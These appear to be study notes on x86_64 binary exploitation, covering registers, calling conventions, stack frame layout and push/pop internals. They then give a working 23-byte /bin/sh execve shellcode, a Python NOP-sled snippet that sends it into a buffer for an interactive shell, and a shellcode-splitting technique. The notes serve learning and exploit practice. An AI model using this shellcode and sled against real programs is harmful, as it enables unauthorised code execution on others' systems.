

## Registers

```nasm
Stack Pointer: rsp ; points to the top of the stack
Base pointer: rbp ; points to the bottom of the stack
```

Access lower bytes of registers like so:

```nasm
64-bit: rax, rcx, rsp
32-bit: eax, ecx, esp
16-bit: ax,  cx,  sp

8-bit-high: ah, ch (only for some registers)
8-bit-low: al, cl, spl
```

[Assembly Language & Computer Architecture Lecture (CS
      301)](https://www.cs.uaf.edu/2017/fall/cs301/lecture/09_11_registers.html)

## x86_64 Calling Convention

```nasm
1st arg: rdi
2nd arg: rsi
3rd arg: rdx
4th arg: rcx
5th arg: r8
6th arg: r9

Result: rax
```

## Stack Frame Layout

Without Stack Canary

```nasm
<local variables>    | ($rbp - 8) - ?
<saved base pointer> | $rbp points here
<return address>     | $rbp + 8
<stack arguments>    | ($rbp + 8) + ?
```

With Stack Canary

```nasm
<local variables>    | ($rbp - 16) - ?
<stack canary>       | $rbp - 8
<saved base pointer> | $rbp points here
<return address>     | $rbp + 8
<stack arguments>    | ($rbp + 8) + ?
```

Here, with the canary

`$rsp = 0x7fffffffed60` (top of the stack, just above the local variables)



`$rbp = 0x7fffffffedc0` (where the previous stack frame’s RBP value is stored)

## x86_64 Syscalls

Calling Convention:

```nasm
Syscall Number: $rax
Syscall Params: $rdi, $rsi, $rdx, $r10, $r8, $r9
```

x64 syscall arguments and numbers listed here:

[x64.syscall.sh](https://x64.syscall.sh/)

## Function Prologue

Allocates a stack frame for the function

```nasm
push rbp ; allocate 8 bytes on top of the stack and place rbp there (old rbp)
mov rbp, rsp ; set new base pointer to top of stack (rbp points to old rbp)
sub rsp, 0x30 ; allocate 48 bytes to the stack
```

## Function Epilogue

Release current stack frame and return execution to caller

```nasm
leave ; release stack frame
ret ; pop return addr off stack into rip
```

contents of `leave`

```nasm
mov rsp, rbp ; top of stack is now the old bottom of stack (releasing the old)
pop rbp ; base pointer is now the old rbp
```

contents of `ret`

```nasm
pop rip
```

## Pop Internals

```nasm
pop rax
```

Expanded:

```nasm
mov rax, qword [rsp]   ; copy value at [rsp] into register
add rsp, 0x8           ; move rsp down 8 bytes (de-allocate)
```

## Push Internals

```nasm
push rax
```

Expanded:

```nasm
sub rsp, 0x8           ; move rsp up 8 bytes (allocate)
mov qword [rsp], rax   ; put value where rsp now points
```

## 23-Byte Shellcode

```nasm
xor esi, esi
movabs rbx, 0x68732f2f6e69622f 
push rsi
push rbx
push rsp
pop rdi
push 0x3b
pop rax
xor edx, edx
syscall

`\x31\xF6\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x56\x53\x54\x5F\x6A\x3B\x58\x31\xD2\x0F\x05`
```

Note: shellcode often needs to have no `\x00` (null bytes) in it as that marks the end of a string

## NOP-Sledding Example

```python
import interact

sh = b'\x31\xF6\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x56\x53\x54\x5F\x6A\x3B\x58\x31\xD2\x0F\x05'
nop = b'\x90'

p = interact.Process()
p.sendline(nop*(511-len(sh))+sh) # buffer size = 512
p.interactive()
```

## Shellcode Splitting

If part of the shellcode consistently gets corrupted

Original shellcode:

```nasm
xor esi, esi
movabs rbx, 0x68732f2f6e69622f
push rsi
push rbx
push rsp
pop rdi
push 0x3b
pop rax
xor edx, edx
syscall
```

Split shellcode:

```nasm
xor esi, esi
movabs rbx, 0x68732f2f6e69622f
push rsi
push rbx
jmp $+0x6 ; jumps to 'push rsp'
nop ; can be corrupted
nop ; can be corrupted
nop ; can be corrupted
nop ; can be corrupted
push rsp ; execution resumes here
pop rdi
push 0x3b
pop rax
xor edx, edx
syscall
```

The 0x6 comes from the fact that it is counting bytes in the assembly:

```nasm
0xe:  eb 04                   jmp    14 <_main+0x14> ; rip=0xe
0x10: 90                      nop 
0x11: 90                      nop
0x12: 90                      nop
0x13: 90                      nop
0x14: 54                      push   rsp ; rip=0x14, 0x14-0xe=0x6

```